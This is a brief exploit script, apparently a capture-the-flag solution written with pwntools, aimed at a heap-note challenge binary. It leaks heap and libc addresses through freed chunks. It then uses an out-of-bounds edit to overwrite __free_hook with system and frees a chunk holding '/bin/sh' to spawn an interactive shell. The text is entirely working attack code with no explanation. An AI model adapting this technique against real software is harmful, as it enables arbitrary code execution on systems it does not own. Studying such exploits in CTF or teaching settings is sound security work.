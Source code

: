 ```
delete(1)
add(0x88)
add(0x88)
show(0)
heap_address = u64(p.recvline().strip().ljust(8, b"\x00"))

for i in range(7):
    delete(i)
delete(7)
for i in range(7):
    add(0x88)
add(0x88)
edit(7, b"a"*8)
show(7)
p.recvuntil("a"*8)
libc.address = u64(p.recvline().strip().ljust(8, b"\x00")) - 96 - 0x10 - libc.sym['__malloc_hook']
log.success("libc address is `{``}`".format(hex(libc.address)))
log.success("heap address is `{``}`".format(hex(heap_address)))

for i in range(9):
    delete(i)

for i in range(3):
    add(0xff)

delete(0)
delete(1)

edit(-0x33, p64(libc.sym['__free_hook']))
add(0xff)
add(0xff)
edit(0, b"/bin/sh\x00")
edit(1, p64(libc.sym['system']))
delete(0)

p.interactive()
```
